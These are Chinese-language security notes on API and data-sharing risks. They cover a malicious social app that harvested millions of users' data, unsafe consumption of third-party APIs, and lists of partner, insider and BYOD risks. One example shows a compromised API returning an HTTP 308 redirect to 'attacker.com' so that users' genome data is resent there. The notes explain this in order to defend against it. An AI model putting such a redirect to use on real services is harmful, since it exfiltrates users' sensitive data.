 
**场景案例：**

社交网络允许独立应用程序的开发人员与之集成，这个过程需要用户同意分享他们的个人信息。然而，社交网络和独立应用程序之间的数据流缺乏监控和限制，这使得独立应用程序可以访问用户信息，甚至是用户朋友的私人信息。

一家咨询公司建立了一个恶意应用程序，并成功地获取了270,000个用户的授权。由于这个漏洞，咨询公司能够访问50,000,000名用户的私人信息。最终，该咨询公司因为恶意目的出售了这些信息，给用户带来了巨大的隐私风险。



## API不安全使用

- 信任第三方api而不检验（供应链角度 ）


**eg：**

API与第三方服务提供商集成了用户的医疗敏感信息。数据使用HTTP通过安全链接发送请求如下：

```cpp
POST /user/store_phr_record
{ "genome": "ACTAGTAG__TTGADDAAIICCTT…" }
```

攻击者找到了一种破坏第三方API的方法，使用308重定向响应与上一个类似的请求。

```cpp
HTTP/1.1 308 Permanent Redirect
Location: https://attacker.com/
```

由于API盲目地遵循第三方重定向，攻击者可以在其中插入恶意代码。这使得API会重复发送用户的请求和敏感数据到攻击者的服务器上，而不是原来的目标服务器上。攻击者可以利用这些数据进行各种恶意行为，例如窃取用户信息、入侵企业网络等。



## 补充

#### 合作伙伴风险

- 合作伙伴违规

- 合作伙伴被攻破
- 合作伙伴离职员工风险
- 业务合规风险
- 采集涉敏数据与报备不一致
- 数据违规开放&共享
- 数据违规出境
- 接口违反最小化原则

#### 内部人员攻击风险

- 内部人员、外包员工违规滥用和窃取敏感数据
- 离职员工窃取数据风险
- 安全访问控制配置错误&失效
- 外部人员攻击风险

#### BYOD风险
